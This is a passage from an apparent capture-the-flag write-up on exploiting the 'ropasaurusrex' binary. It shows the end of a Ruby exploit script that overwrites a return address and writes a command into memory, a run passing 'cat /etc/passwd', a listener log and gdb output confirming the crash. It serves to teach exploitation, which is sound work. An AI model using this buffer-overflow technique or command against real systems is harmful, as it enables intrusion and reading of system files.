 ```
<span class="lnr">24 </span>
<span class="lnr">25 </span>    read_addr <span class="Comment"># Overwrite the original return</span>
<span class="lnr">26 </span>  ].reverse.pack(<span class="Special">"</span><span class="Constant">I*</span><span class="Special">"</span>) <span class="Comment"># Convert a series of 'ints' to a string</span>
<span class="lnr">27 </span>
<span class="lnr">28 </span><span class="Comment"># Write the 'exploit' payload</span>
<span class="lnr">29 </span>s.write(payload)
<span class="lnr">30 </span>
<span class="lnr">31 </span><span class="Comment"># When our payload calls read() the first time, this is read</span>
<span class="lnr">32 </span>s.write(cmd)
<span class="lnr">33 </span>
<span class="lnr">34 </span><span class="Comment"># Clean up</span>
<span class="lnr">35 </span>s.close()
```

We run that against the target:

```

<span class="lnr">1 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">"</span><span class="Constant">cat /etc/passwd</span><span class="Statement">"</span>
```

And verify it crashes:

```

<span class="lnr">1 </span>listening on <span class="Statement">[</span>any<span class="Statement">]</span> <span class="Constant">4444</span> ...
<span class="lnr">2 </span>connect to <span class="Statement">[</span>127.0.0.1<span class="Statement">]</span> from debian-x86.skullseclabs.org <span class="Statement">[</span>127.0.0.1<span class="Statement">]</span> <span class="Constant">53456</span>
<span class="lnr">3 </span>Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
```

Then verify that it crashed at read's return address (<tt>0x43434343</tt>) and wrote the command to the memory at 0x08049530:

```

<span class="lnr">1 </span>$ gdb <span class="Special">--quiet</span> ./ropasaurusrex core
<span class="lnr">2 </span><span class="Statement">[</span>...<span class="Statement">]</span>
<span class="lnr">3 </span>Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr">4 </span><span class="Comment">#0  0x43434343 in ?? ()</span>
<span class="lnr">5 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/s 0x08049530
<span class="lnr">6 </span>0x8049530:       <span class="Statement">"</span><span class="Constant">cat /etc/passwd</span><span class="Statement">"</span>
```
